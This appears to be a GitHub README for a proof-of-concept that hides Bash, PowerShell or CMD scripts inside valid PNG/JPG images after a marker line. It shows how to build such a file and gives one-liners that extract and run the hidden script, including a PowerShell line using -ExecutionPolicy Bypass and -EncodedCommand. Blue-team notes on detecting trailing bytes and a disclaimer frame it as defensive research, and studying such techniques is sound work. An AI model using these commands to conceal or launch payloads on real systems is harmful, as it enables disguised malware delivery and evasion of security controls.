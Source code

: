 # From Cat Photo to Shell: Polyglot File PoC for Linux & Windows

A **polyglot file** is a single file that is valid in **two formats at once**.  
Example: a `.png`/`.jpg` that opens normally as an image but also contains a script appended after a marker.

This repo demonstrates a **cross‑platform PoC**: create an image that stays a valid picture **and** embeds a script (Bash / PowerShell / CMD). The payload is extracted with a **single one‑liner**—no helper binaries, no external tools beyond what’s already on the OS.

> ⚠️ **Ethical use only**. This PoC is for defensive research and education. Do not use to conceal malicious payloads or violate policy/law.

---

## 🧠 How it works (short)
Many image parsers ignore bytes after the end marker (e.g., PNG `IEND`). We place a line with the marker:

```
__lolz__
```

…then append plain‑text script bytes. The image viewer stops at `IEND` and renders the picture. The one‑liner extracts **everything after `__lolz__`** and feeds it to the right interpreter.

---

## ⚡ Quick Start

1) **Build a polyglot**
```bash
python3 make_polyglot.py
```
- The script lists `.png` / `.jpg` / `.jpeg` in the current folder for quick selection.
- Choose payload type: `bash`, `powershell`, or `cmd`.
- Paste your script (or just press Enter for a Hello‑World default).
- Output: `*_polyglot.png` or `*_polyglot.jpg`.

2) **Run the embedded payload (copy one line)**

**Bash payload (Linux/macOS):**
```bash
awk 'f{print} /^__lolz__$/ {f=1; next}' FILE | bash
```

**CMD payload (Windows, Batch):**
```powershell
$s=(Get-Content -Raw "FILE") -split "`r?`n"; $i=[Array]::IndexOf($s,"__lolz__"); ($s[($i+1)..($s.Length-1)] -join "`r`n") | cmd.exe /Q
```

**PowerShell payload (Windows – robust, no hang):**
```powershell
$f="FILE";$b=[IO.File]::ReadAllBytes($f);$m=[Text.Encoding]::ASCII.GetBytes("`n__lolz__`n");$i=-1;for($p=0;$p -le $b.Length-$m.Length;$p++){ $ok=$true;for($k=0;$k -lt $m.Length;$k++){ if($b[$p+$k] -ne $m[$k]){$ok=$false;break} } if($ok){$i=$p;break} } if($i -lt 0){throw "Marker not found"};$tail=[Text.Encoding]::UTF8.GetString($b,$i+$m.Length,$b.Length-$i-$m.Length);$enc=[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($tail));powershell -NoProfile -ExecutionPolicy Bypass -EncodedCommand $enc
```

Replace `FILE` with your `*_polyglot.png` / `*.jpg` path.


---

## 🔍 Blue‑Team Notes
- Don’t trust file extensions; parse magic and **inspect tail bytes**.
- Useful tools: `file`, `xxd`, `binwalk`, hex viewers, detonation sandboxes.
- Consider **Content Disarm & Reconstruction (CDR)** to normalize images (strip trailing data).

---

## ⚠️ Disclaimer
This repository is for **educational and defensive research**. The author(s) assume no liability for misuse.
